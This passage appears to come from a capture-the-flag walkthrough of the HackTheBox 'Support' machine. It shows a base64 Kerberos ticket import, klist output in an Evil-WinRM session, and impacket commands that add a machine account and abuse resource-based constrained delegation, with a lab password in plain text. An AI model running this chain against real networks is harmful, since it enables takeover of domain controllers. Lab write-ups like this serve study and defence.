         tqI18Rp8s11kWY/nRTf5i20/G1lehEJOzhdhPhVO8NZamMlwg0+hd2Tfajqsj5FmAs26wnOi50CyTBrv
        t/3SVh0y6qJoupr4tXZwbV4jWudYwkW45fTVI10ne8gaEr6rQn3aMGD/EX46nC+QQrjnh3yTgKN9r9iX
        OZeXRKJWsCm893Ghq4Xh6GyMpEyPSUHOPccszojgEOf9ZOQpep7DeVswlCprszQY63JjU7CxzmBkaQTX
        X1H4uQkz/cSQzT5gZ+t5qTwaWHhgNAntWD0bL33KJkSVvcsXRvjBov7lliqiP01YTd0HC+NrSOMNtUyY
        8EIeWTwkUGMJUYMGlatwBbRbnWidBHnbBys7VjJ3gA3VFWSLUNibNplQ21ryvfYE/5+wmR5Kj4aqdm3s
        gk/9Xib8goSm/T+375pfSRiAh+eW1IWkDwZccL1BC0d+DOmE6zCMiCSQp690iYBvXIBbpSSmPj7Ed4pC
        E1FdFC5TVH9aHEFocRm+stNeqPFO7eZh5FrkdeWKkzNqCGRN53/bLBLzJkqWJxZuNarkCZDTg/93EOQV
        Iyf4fMnr7YnNWZWMvaOTFU4ubLgMsq3IbNpLKIjNk2PfvQ33o4HZMIHWoAMCAQCigc4Egct9gcgwgcWg
        gcIwgb8wgbygGzAZoAMCARGhEgQQpe0IDOs/L5uiAJ3959AcgqENGwtTVVBQT1JULkhUQqIaMBigAwIB
        CqERMA8bDWFkbWluaXN0cmF0b3KjBwMFAEClAAClERgPMjAyNDEyMjAxMzAxMTlaphEYDzIwMjQxMjIw
        MjMwMTE4WqcRGA8yMDI0MTIyNzEzMDExOFqoDRsLU1VQUE9SVC5IVEKpITAfoAMCAQKhGDAWGwRjaWZz
        Gw5kYy5zdXBwb3J0Lmh0Yg==
    [+] Ticket successfully imported!

verify attack

    *Evil-WinRM* PS C:\Users\support\Documents> klist

    Current LogonId is 0:0xe0f55

    Cached Tickets: (1)

    #0>     Client: administrator @ SUPPORT.HTB
            Server: cifs/dc.support.htb @ SUPPORT.HTB
            KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
            Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
            Start Time: 12/20/2024 5:01:19 (local)
            End Time:   12/20/2024 15:01:18 (local)
            Renew Time: 12/27/2024 5:01:18 (local)
            Session Key Type: AES-128-CTS-HMAC-SHA1-96
            Cache Flags: 0
            Kdc Called:
    *Evil-WinRM* PS C:\Users\support\Documents> 

### Linux-Abuse

#### addcomputer

    ➜  Support impacket-addcomputer -computer-name 'irem$' -computer-pass Password321! -dc-ip 10.10.11.174 support/support:Ironside47pleasure40Watchful
    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

    [!] No DC host set and 'support' doesn't look like a FQDN. DNS resolution of short names will probably fail.
    [*] Successfully added machine account irem$ with password Password321!.

#### RBCD

    ➜  Support impacket-rbcd -action write -delegate-to "dc$" -delegate-from 'irem$' -dc-ip 10.10.11.174 support.htb/support:Ironside47pleasure40Watchful
    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

    [*] Accounts allowed to act on behalf of other identity:
    [*]     osman$       (S-1-5-21-1677581083-3380853377-188903654-5601)
    [*] Delegation rights modified successfully!
    [*] irem$ can now impersonate users on dc$ via S4U2Proxy
    [*] Accounts allowed to act on behalf of other identity:
    [*]     osman$       (S-1-5-21-1677581083-3380853377-188903654-5601)
    [*]     irem$        (S-1-5-21-1677581083-3380853377-188903654-5602)
